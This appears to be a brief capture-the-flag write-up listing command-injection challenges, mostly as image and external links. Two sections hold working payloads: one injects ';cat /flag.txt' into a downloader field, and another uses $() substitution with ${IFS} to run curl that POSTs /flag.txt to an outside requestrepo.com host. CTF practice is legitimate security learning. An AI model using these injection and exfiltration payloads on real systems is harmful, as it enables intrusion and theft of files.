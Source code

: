 
## Ethical Ping Pong Club

![image](https://hackmd.io/_uploads/S1VCEAQ70.png)


## Blind Command Injection


![image](https://hackmd.io/_uploads/rJZSLCQmC.png)


![image](https://hackmd.io/_uploads/Byb48R7Q0.png)


## Time

![image](https://hackmd.io/_uploads/S1aZVJNQR.png)

## Break The Editor Jail


https://zacheller.dev/text-editor-jail

https://b4d.sablun.org/blog/2020-02-16-247ctf-com-misc-the-text-editor-jail/


## Ping 0x01

![image](https://hackmd.io/_uploads/S1y9wJNQC.png)


![image](https://hackmd.io/_uploads/rkbYDJ4X0.png)

## Ping 0x02

![image](https://hackmd.io/_uploads/rkXG51NQC.png)


https://forum.cookiearena.org/t/web-ping-0x01-ping-0x02-os-command-injection/164



## Youtube Downloader


chỉ cần ;cat%20/flag.txt là được.


## The Existed File
``
$(curl${IFS}-X${IFS}POST${IFS}--data${IFS}@/flag.txt${IFS}http://fvcwu3xj.requestrepo.com)
``
